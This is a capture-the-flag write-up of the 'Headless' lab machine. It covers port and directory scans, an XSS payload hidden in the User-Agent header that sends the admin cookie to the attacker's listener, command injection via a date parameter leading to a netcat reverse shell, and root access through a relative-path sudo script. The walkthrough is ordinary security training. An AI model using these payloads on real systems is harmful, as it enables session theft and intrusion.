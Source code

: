 ```yaml
---
layout: post
title:  "HTB Headless"
tags: Web XSS
categories: HTB
---
```



![image](/images/26e076db204a74b99390e586d7ebcf8c.webp){:height="150px" style="float:right; margin: 10px" }
Headless is an Easy difficulty linux machine that features a Python Werkzeug server hosting a website. The website has a support form, which we find is vulnerable to an XXS attack that we can use to steal an admin cookie, which gives us access to a dashboard that is vulnerable to command injection. After getting a shell on the box, we find that the user can run a particular shell script as sudo which doesn't use absolute paths, which we can exploit to get root.
<!--more-->
## Recon
We start things off with an nmap scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-08 15:13 AEST
Nmap scan report for 10.10.11.8
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?        
| fingerprint-strings:                                                                                   
|   GetRequest:                                                                                          
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 08 Sep 2024 05:13:54 GMT                                                                                                                                                                         
|     Content-Type: text/html; charset=utf-8                                                             
|     Content-Length: 2799                                                                               
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/   
|     Connection: close                                                                                  
|     <!DOCTYPE html>                                                                                    
|     <html lang="en">                                                                                   
|     <head>                                                                                             
|     <meta charset="UTF-8">                                                                             
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>                                                                  
|     <style>                                                                                            
|     body {                                                                                             
|     font-family: 'Arial', sans-serif;                                                                  
|     background-color: #f7f7f7;                                                                         
|     margin: 0;                                                                                         
|     padding: 0;                                                                                        
|     display: flex;                                                                                     
|     justify-content: center;                                                                           
|     align-items: center;                                                                               
|     height: 100vh;                                                                                     
|     .container {                                                                                       
|     text-align: center;                                                                                
|     background-color: #fff;                                                                            
|     border-radius: 10px;                                                                               
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);                                                       
|   RTSPRequest:                                                                                         
|     <!DOCTYPE HTML>                                                                                    
|     <html lang="en">                                                                                   
|     <head>                                                                                             
|     <meta charset="utf-8">                                                                             
|     <title>Error response</title>                                                                      
|     </head>                                                                                            
|     <body>                                                                                             
|     <h1>Error response</h1>                                                                            
|     <p>Error code: 400</p>                                                                             
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>          
|     </body>                                                                                            
|_    </html>
```
Our nmap scan returns two open ports: `22` for SSH, and `5000`, which nmap doesn't recognize, but based on the information returned we can see that it's a HTTP server running Python Werkzeug 2.2.2.

We run a quick gobuster directory brute force on the website, and find two directories, `/support` and `/dashboard`:
```
└─$ gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```

## Getting a shell

We visit the site by navigating to `10.10.11.8:5000` in our browser, and are greeted by the following page:


<img src="/images/welcome-page.png" alt="Headless welcome page" style="margin:0 auto;display:block;">


Navigating to the `/dashboard` endpoint displays an unauthorized message, which we probably need an admin cookie for, as we saw the cookie `is_admin` in our nmap results earlier.


<img src="/images/unauthorized.png" alt="Headless welcome page" style="margin:0 auto;display:block;">


Going back to the index page, clicking on the 'For Questions' button takes us to a support form page at the `/support` endpoint, which allows us to contact support with a message. We do a quick test for XSS:


<img src="/images/xss-payload.png" alt="xss payload" style="margin:0 auto;display:block;">


Upon submitting the form, we get the following message back:


<img src="/images/hacking-attempt.png" alt="hacking attempt detected" style="margin:0 auto;display:block;">

It seems our xss attempt was caught by the application, and that a report with our browser information will be sent to the administrators to the investigation.

Well, if they're going to pass on a report that includes our browser information to an admin, perhaps we could put our XSS payload in the User-Agent field of our request, and then have it be viewed be executed by an admin whose cookie we would send back to ourselves. We open up the request in burp, and edit our User-Agent to be the URL encoded XSS payload of `<img src=x onerror=this.src="http://10.10.14.20/?c="+document.cookie>`


<img src="/images/xss-user-agent.png" alt="xss user agent" style="margin:0 auto;display:block;">


We send off the request and start a netcat listener on port 80 with `nc -lvnp 80`. After a short delay, we get the admin cookie:


<img src="/images/xss-success.png" alt="xss user agent" style="margin:0 auto;display:block;">


We put the admin cookie into our browser and try to access the `/dashboard` endpoint, and we're in! 


<img src="/images/dashboard.png" alt="dashboard" style="margin:0 auto;display:block;">


The dashboard allows us to generate a website health report for a particular date. Upon hitting the "Generate Report" button, we get the following message back:


<img src="/images/generate-report.png" alt="report" style="margin:0 auto;display:block;">


Looking at the post request that gets generated in burpsuite, we see that it has a single parameter, `date`. 

It's possible that the server is passing this parameter as a string into a system command in order to run generate the website health report (since this is python it might be something like `os.system`). If that's the case, we might be able to inject our own command after the date value. We test this by appending `; id` to the end of the parameter (`;` being the character used to seperate multiple commands on a single line in bash)


<img src="/images/command-injection-burp.png" alt="command injection output" style="margin:0 auto;display:block;">


Checking the dashboard again, we see our command injection worked!


<img src="/images/command-injection-output.png" alt="command injection output" style="margin:0 auto;display:block;">

Now that we have command injection, we can easily get a reverse shell using `busybox nc` and setting up a netcat listener:

<img src="/images/revshell-burp.png" alt="burpsuite revshell" style="margin:0 auto;display:block;">

On our listener, we catch the shell and upgrade it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`:

<img src="/images/revshell-nc.png" alt="nc revshell received" style="margin:0 auto;display:block;">

## Privesc

Now that we have a shell as user `dvir`, we run `sudo -l` to see if he has any sudo privileges that we could use to get root:


<img src="/images/sudo-l.png" alt="sudo -l" style="margin:0 auto;display:block;">


We see that he can run `/usr/bin/syscheck` as root without a password. We run it to see what it does:


<img src="/images/syscheck.png" alt="syscheck" style="margin:0 auto;display:block;">


The output is fairly simple, and it doesn't seem to need any arguments. We cat the file and see that it's a bash script:


<img src="/images/syscheck-code.png" alt="syscheck code" style="margin:0 auto;display:block;">


The script first checks that the running user is root, and will exit if they aren't. It then prints the last modified time of the `vmlinuz` file, the output of `df -h`, and also the output of `uptime`.

So far, the script has been using full paths for all of the commands it runs. However, we spot a flaw in the last section of the script:
```

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
This part of the script first uses `pgrep` to look for any process with `initdb.sh` in it. If there is no such process, it prints a short message (which we saw earlier) and then runs `./initdb.sh`. This command uses a relative path, meaning that whatever directory we run the script from will be searched for an `initdb.sh` script to be ran.
We can exploit this by creating an `initdb.sh` file containing a bash reverse shell, and then by running `sudo /usr/bin/syscheck` from the same directory.

We create our reverse shell script:

<img src="/images/new-initdb.png" alt="malicious initdb" style="margin:0 auto;display:block;">

And now we just need to start a netcat listener on port 4444, and then run syscheck once more:

<img src="/images/syscheck-for-root.png" alt="syscheck for root" style="margin:0 auto;display:block;">

The syscheck output hangs, but on our nc listener we get a shell as root!

<img src="/images/root-and-flag.png" alt="nc revshell received" style="margin:0 auto;display:block;">

And that's the box!
